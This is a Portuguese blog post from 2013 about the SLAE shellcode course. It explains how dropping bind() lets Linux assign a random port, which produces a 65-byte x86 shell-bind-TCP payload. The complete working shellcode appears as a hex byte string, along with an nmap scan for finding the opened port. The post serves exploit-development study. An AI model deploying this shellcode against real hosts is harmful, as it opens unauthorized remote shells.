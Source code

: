 ```yaml
---
layout: post
title: Hacking do Dia - Shell Bind TCP Random Port
date: '2013-03-18T23:00:00.000-03:00'
author: geyslan
tags: [slae, shellcode, linux, code, assembly, c, hacking, metasploit, portuguese]
modified_time: '2014-05-04T11:38:14.382-03:00'
blogger_id: tag:blogger.com,1999:blog-2541885528459487831.post-1583820687648973523
blogger_orig_url: http://www.hackingbits.com/2013/03/hacking-do-dia-shell-bind-tcp-random.html
---
```


*/\*<br>
Para melhor entendimento, leiam o post anterior [SLAE - 1st Assignment - Shell Bind TCP](/slae-1st-assignment-shell-bind-tcp.html)<br>
\*/*

*\<UPDATE\><br>
O [shellcode](http://shell-storm.org/shellcode/files/shellcode-834.php) final
deste post foi aceito no repositório [Shell-Storm](http://www.shell-storm.org/).<br>
Tks Jonathan Salwan.<br>
\</UPDATE\>*

*\<UPDATE 2\><br>
Foram incluídas no Metasploit as versões x86 e x86_64 deste payload.<br>
Tks Ewerson Guimarães (Crash), Tod Beardsley and all involved in Metasploit project.<br>
x86
[payload](https://github.com/rapid7/metasploit-framework/blob/678a16b5ef2dda6a65b2785cda498aab7bfda46a/modules/payloads/singles/linux/x86/shell_bind_tcp_random_port.rb)<br>
x86_64
[payload](https://github.com/rapid7/metasploit-framework/blob/678a16b5ef2dda6a65b2785cda498aab7bfda46a/modules/payloads/singles/linux/x64/shell_bind_tcp_random_port.rb)<br>
\</UPDATE 2\>*

Olá pessoal!

Comentários são sempre fantásticos. Sabem por quê?

Porque através da troca de conhecimento ideias surgem. E, havendo vontade, essas
ideias podem se transformar em algo útil.

Esta tarde, [Tiago Natel](https://twitter.com/_i4k_)
([SecPlus](http://www.secplus.com.br/)) me respondeu, com veemência e
propriedade, sobre o post [SLAE - 1st
Assignment](slae-1st-assignment-shell-bind-tcp.html)
na lista do [Brasil
Underground](https://groups.google.com/forum/?fromgroups#!forum/brasil-underground).
A informação que ele passou sobre shellcodes e o uso do **SO_REUSEADDR** foram
engrandecedoras para mim e os demais da lista.

Por e-mail, marcamos de debatermos o assunto, o que aconteceu no finalzinho da
tarde.

Fizemos, em conjunto, uns debbugs e traces dos shellcodes do metasploit e do que
disponibilizei via
[github](https://github.com/geyslan/SLAE/tree/master/1st.assignment).
Constatamos que realmente o do metasploit gera SIGSEGV quando a porta ainda está
em TIME_WAIT, uma vez que ao tentar fazer o bind, e não conseguir, o registrador
$eax recebe número negativo (erro) e fica poluído. Mesmo as novas cópias para
esse registrador não resolvem, já que, para se evitar null-bytes, os shellcodes
têm mov's usando o registrador $al, que copiam apenas 1 byte, deixando o resto
de $eax como está. Bom, dá para imaginar que o shellcode não vai funcionar muito
bem. :D

Identificamos, porém, que quando o meu shell_bind_tcp, sem opção SO_REUSEADDR,
era instanciado pela segunda vez, ou seja, com a porta da instância anterior
ainda em TIME_WAIT, o socket, ao ser criado, usava uma porta aleatória. De
início, achamos isso meio louco! Chegamos a pensar que a listen cuidava disso.
Eu pensei que era alguma coisa da libc, mas reproduzi o mesmo efeito com o
código asm (apenas com syscalls).

Nesse ínterim, Tiago, por ter bastante experiência, fez uma pesquisa rápida no
google e  encontrou informações a respeito do uso do bind no manual POSIX da
Fujitsu Siemens Computer
([SOCKETS/XTI(POSIX)](http://manuals.ts.fujitsu.com/file/4686/posix_s.pdf)).

Vejam o achado dele (pg. 23):

> 2.6.6 Automatic address assignment by the system<br><br>
You can still call a function for a socket which actually requires a bound
socket (e.g. connect(), sendto(), etc.), **even if the socket has no address
assigned to it. In this case, the system executes an implicit bind() call with
wildcards for the Internet address and port number, i.e. the socket is bound
with INADDR_ANY to all IPv4** addresses and with IN6ADDR_ANY to all IPv6 addresses
and IPv4 addresses of the host **and receives a free port number from the range of
non-privileged port numbers.**

O que isso quer dizer?

Se não tivermos feito bind no socket, ou se o bind não acontecer por não haver
endereço e/ou porta disponíveis, como identificamos no meu shell_bind_tcp sem
SO_REUSEADDR, ao se utilizar syscalls como connect, sendto, no nosso caso a
listen, o sistema se encarrega de fazer um bind genérico com o atributo
INADDR_ANY e de disponibilizar uma porta dentre os números não privilegiados.

De certa forma estávamos corretos, pois pensávamos que era a listen que estava a
fazer o bind automático; em verdade, foi através dela que o sistema se
encarregou de amarrar o socket a um endereço disponível.

*Sim, e daí?*

Os shellcodes não imploram para serem pequenos e se adequarem aos buffers
explorados?

Quase que instantaneamente tivemos a ideia de retirar o setsockopt (usado no meu
shellcode) e o próprio bind (usado em todos).

Vocês não imaginam o tamanho do novo
[shell_bind_tcp_random_port](https://github.com/geyslan/SLAE/tree/master/improvements)...

**Míseros 65 bytes**

{% highlight console %}
$ echo -e "\x6a\x66\x58\x99\x6a\x01\x5b\x52\x53\x6a\x02\x89\xe1\xcd\x80\x89\xc6\x5f\xb0\x66\xb3\x04\x52\x56\x89\xe1\xcd\x80\xb0\x66\x43\x89\x54\x24\x08\xcd\x80\x93\x59\xb0\x3f\xcd\x80\x49\x79\xf9\xb0\x0b\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x53\xeb\xca" | /opt/libemu/bin/sctest -vvv -Ss 100000 -G shell_bind_tcp_random_port.dot
{% endhighlight %}

{% include image.html url="https://raw.github.com/geyslan/SLAE/master/improvements/shell_bind_tcp_random_port_shellcode.png" desc="Fluxograma do shell_bind_tcp_random_port" %}

*Ah, mas isso não serve! Do que adianta se eu não posso setar a porta?*

**nmap nele!**

{% highlight console %}
$ nmap -sS host -p-
{% endhighlight %}

Só tenho algo mais a dizer: **COMPARTILHEM!!**

*P.S.* Valeu, Tiago!

##Mais Informações

[Hacking bits - github](https://github.com/geyslan)<br> [Metasploit x86
payload](https://github.com/rapid7/metasploit-framework/blob/678a16b5ef2dda6a65b2785cda498aab7bfda46a/modules/payloads/singles/linux/x86/shell_bind_tcp_random_port.rb)<br>
[Metasploit x86_64
payload](https://github.com/rapid7/metasploit-framework/blob/678a16b5ef2dda6a65b2785cda498aab7bfda46a/modules/payloads/singles/linux/x64/shell_bind_tcp_random_port.rb)<br>
[SecPlus - github](https://github.com/SecPlus/)<br>
[SecPlus](http://www.secplus.com.br/)<br> [POSIX - SOCKETS/XTI for POSIX -
Manuals - Fujitsu](http://manuals.ts.fujitsu.com/file/4686/posix_s.pdf)<br>
[bind() - POSIX - IEEE Std
1003.1-2008](http://pubs.opengroup.org/onlinepubs/9699919799/functions/bind.html)<br>
[nmap](http://nmap.org/)<br> [Brasil
Underground](https://groups.google.com/forum/?fromgroups#%21forum/brasil-underground)<br>

